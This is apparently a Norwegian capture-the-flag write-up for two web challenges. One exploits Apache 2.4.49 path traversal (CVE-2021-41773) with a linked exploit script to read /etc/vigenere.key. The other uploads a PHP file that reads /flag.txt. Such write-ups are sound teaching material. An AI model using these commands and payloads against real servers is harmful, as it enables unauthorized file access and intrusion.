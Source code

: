 <details><summary>Flagg</summary></details>



## WEB

## SAFE KEY

### Oppgave

Hele oppgaven finnes [her](web/safe_key/challenge.md)

### Løsning

Under `flag.txt` finner vi flagget som skal crackes

I `hints.txt` finner vi ut at vi ser etter en vigenere.key, og `Apache HTTP Server version is: 2.4.49` avslører hvilken webserver som hoster filene.

Denne Apache versjonen har en kritisk sårbarhet som vi kan utnytte: [CVE-2021-41773](https://www.exploit-db.com/exploits/50383).

Videre finner jeg et pythonskript som kan brukes for hente ut en fil gjennom sårbarheten:
[script på github](https://github.com/blackn0te/Apache-HTTP-Server-2.4.49-2.4.50-Path-Traversal-Remote-Code-Execution/blob/main/exploit.py)

```bash
python exploit.py 10.212.138.23 10872 file '/etc/vigenere.key''
```

Nå har vi både chipertext og key, så nå kan denne [løses i CyberChef med Vigenere Decode](https://gchq.github.io/CyberChef/#recipe=Vigen%C3%A8re_Decode('zxcvbnmasdfnugrrjaklbdpwkanfuelsnuqwerjklanbuekfgasleibgmear')).

<details><summary>Flagg</summary></details>


## SHAREZ

### Oppgave

Hele oppgaven finnes [her](web/sharez/challenge.md)

### Løsning

Vi ser at det ikke er noen restriksjoner på hvilke filer vi kan laste opp og at vi blir presentert alle filene vi laster opp.

Derfor laster vi opp en ondsinnet PHP-fil som forsøker å finne en fil kalt `flag.txt`:

```php
<?php echo file_get_contents('/flag.txt');?>
```

Åpner scriptet vi laster opp kjører det på serveren og gir oss flagget.

<details><summary>Flagg</summary></details>



